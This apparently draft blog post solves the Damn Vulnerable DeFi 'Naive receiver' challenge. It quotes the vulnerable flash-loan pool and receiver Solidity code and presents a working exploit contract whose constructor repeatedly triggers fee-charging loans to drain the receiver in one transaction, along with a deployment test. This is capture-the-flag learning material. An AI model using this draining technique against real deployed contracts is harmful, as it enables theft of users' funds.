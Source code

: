 ```yaml
---
isDraft: true
title: 'Damn Vulnerable DeFi Challenge #2 Solution'
series: 'Damn Vulnerable DeFi'
draftDate: 'Feb 09, 2023'
---
```



# {frontmatter.title}

<Quote />

_Published {frontmatter.publishDate}_

> ## Challenge #2 - Naive receiver
>
> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.
>
> A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
>
> Take all ETH out of the user’s contract. If possible, in a single transaction.

The first thing that stands out in these contracts is that neither the pool nor the receiver implement any sort of access control. The pool's `flashLoan` function calls the `onFlashLoan` function on any contract that is set as the `receiver`.

```solidity
// contracts/naive-receiver/NaiveReceiverLenderPool.sol

function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != ETH) revert UnsupportedCurrency();

    uint256 balanceBefore = address(this).balance;

    // Transfer ETH and handle control to receiver
    SafeTransferLib.safeTransferETH(address(receiver), amount);
    if (
        receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS
    ) {
        revert CallbackFailed();
    }

    if (address(this).balance < balanceBefore + FIXED_FEE)
        revert RepayFailed();

    return true;
}
```

We can call the receiver's `onFlashLoan` function, and it will transfer back `amount` and `fee`. `amount` is set in the pool's `flashLoan` function's `amount` parameter. `fee` is set by the pool's `FIXED_FEE` constant (`1 ether`).

```solidity
// contracts/naive-receiver/FlashLoanReceiver.sol

function onFlashLoan(
    address,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata
) external returns (bytes32) {
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != ETH) revert UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

We can call `onFlashLoan` on the receiver through the pool's `flashLoan` function. The receiver will transfer the fee to the pool, so all we have to do is repeatedly call `onFlashLoan` until the receiver is drained. The challenge asks us to do it in one transaction, though.

To do so, we can create a loop in a contract's `constructor`, and it will run right when it is deployed. The contract's deployment will be our only transaction.

Let's create a contract that transfers everything to the pool from within its `constructor`.

```solidity
// contracts/naive-receiver/Hose.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

contract Hose {
    constructor(
        IERC3156FlashBorrower receiver,
        NaiveReceiverLenderPool pool
    ) {
        while (address(receiver).balance >= 1 ether)
            pool.flashLoan(receiver, pool.ETH(), 0, "");
    }
}
```

We call `flashLoan` on the pool until the receiver can no longer pay the fee. We set `flashLoan`'s `receiver` parameter as the receiver we want to call `onFlashLoan` on. The `token` parameter must be `0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE` or the function will revert. We can conveniently pass in the pool's `ETH` constant since it is `public`. The `amount` parameter doesn't matter in this case since the receiver does not do anything with the actual loan. It could really be anything between 0 and 1000 ETH (the pool's balance). The `data` parameter is also impactless, since the receiver just throws this argument out.

A `for` loop might be better here, so we can set the amount of times we loop, and control how much gas we spend. But since the `player` account is balling out with 10,000 ETH, it doesn't matter much in this case.

All that is left to do is compile and deploy our new contract.

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Hose', player)
  ).deploy(receiver.address, pool.address)
})
```

